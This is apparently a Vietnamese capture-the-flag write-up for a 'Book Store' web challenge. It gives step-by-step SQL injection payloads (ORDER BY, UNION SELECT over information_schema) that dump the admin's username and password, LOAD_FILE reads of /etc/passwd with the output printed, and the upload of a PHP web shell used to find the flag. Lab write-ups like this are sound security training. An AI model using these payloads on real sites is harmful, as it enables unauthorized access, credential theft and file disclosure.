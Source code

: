 # The Book Store

1.	Description:
-	Flag được giấu ở đường dẫn /flagxxx.txt 
-	Bài này là một bài SQLi 

2.	Solution:
-	Ta chọn một sản phẩm bất kì rồi vào burp chuyển request chứa sản phẩm vừa chọn đến Repeater

![1](./images/1.png)

-	Ta thử nhập một kí tự đặc biệt như ‘ hoặc “ để xem có lỗi hay không
payload: GET /description.php?ID=NEW-2'&category=new HTTP/1.2

![2](./images/2.png) ta đoán đây là một lỗ hổng sql!

-	Xác định các cột trong db bằng order by 
payload: ID=NEW-2' ORDER BY 16-- -  

![3](./images/3.png)

payload: ID=NEW-2' ORDER BY 15-- -  
![4](./images/4.png) Vậy có 15 cột 

-	Bây giờ ta sử dụng UNION để bắt đầu lấy thông tin 
payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- -&category=new

giúp ta xác định được các cột trả về ở vị trí nào.

![5](./images/5.png)

-	Ta kiểm tra xem version của db trong bài ctf này là loại nào để ta có thể sử dụng information.schema

![6](./images/6.png)

version MariaDB nên ta sẽ khai thác bằng cách truy cập vào bảng information_schema

-	Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,unhex(hex(table_name)),13,14,15 FROM information_schema.tables WHERE table_schema=database()-- -&category=new 

![6](./images/7.png)

Việc ta sử dụng unhex(hex(table_name)) nhằm mục đích giúp hệ thống hiểu dữ liệu ta truyền vào dưới dạng hex và được trả ra dưới dạng text để ta đọc
Trong MariaDB có 1 cột table_schema chứa tên database trong khi db infomation_schema lại trả về rất nhiều bảng khác của hệ thống nên ta cần thêm điều kiện table_schema=database() để trả về đúng cột db ta đang cần
Ta thấy có 5 cột dược trả về trong đó có bảng users có thể chứa dữ liệu của admin

-	Tiếp tục lấy dữ liệu từng bảng users xem có bao nhiêu cột trong bảng.
Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,group_concat(unhex(hex(column_name))),13,14,15 FROM information_schema.columns WHERE table_name='users'

![6](./images/8.png)

Ta thấy kết quả trả về có 2 cột ta cần quan tâm là cột UserName và cột Password

-	Payload: ID=0' UNION SELECT 1,group_concat(UserName),group_concat(Password),4,5,6,7,8,9,10,11,12,13,14,15 FROM users-- -&category=new 

![6](./images/9.png)

Để nhìn rõ kết quả ta paste link lên browse

![6](./images/10.png)

Tài khoản  username = admin && password = 1234567890 

-	Đăng nhập thử vào admin ta thấy có 2 phần là All user với chức năng show toàn bộ user 

![6](./images/14.png)
 
- và phần Upload product với chức năng upload một file ảnh 

![6](./images/15.png)

-	Check thử thư mục /etc/passwd
payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/etc/passwd'),13,14,15-- -&category=new 
Ta được:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin (user chạy web, thư mục home là /var/www có thể là thư mục gốc của web )
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
www:x:1000:1000::/home/www:/bin/sh
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false

-	Lợi dụng việc upload file không kiểm tra tên, loại, nội dung và kích thước tệp giúp ta có thể tải một file lệnh shell lên trên hệ thống ta tạo file shell có tên path.php nội dung như sau:

![1](./images/11.png)
File shell này giúp tìm các file có tên bắt đầu là flag và kết thúc với đuôi .txt và được tìm từ thư mục gốc trên hệ thống, sau đó kết quả được ghi vào file /www/flag_paths.txt  (file flag_paths.txt được lưu trong thư mục web)

-	Upload file lên và thử các đường dẫn http://<..> /uploads/path.php hoặc /storage/path.php 
Loay hoay một hồi thì mình chợt nhận ra rằng file upload là up ảnh minh họa =)), lúc này mình nghĩ là liệu có mở được file ảnh ko. Click chuột trái vào ảnh và chọn được mở sang một tap khác 

![1](./images/12.png)
Vậy là ta đã có đường dẫn để mở file path.php

Giờ chúng ta đã có file flag_paths.txt tìm đường dẫn flag :  
/flagR3LgR.txt

- Payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/flagR3LgR.txt'),13,14,15-- -&category=new

![1](./images/13.png)

- CHH{Tr41nin9_N4m_B0okSt0r3_f16b8267ba93b3329ff5ae377c3134e3}
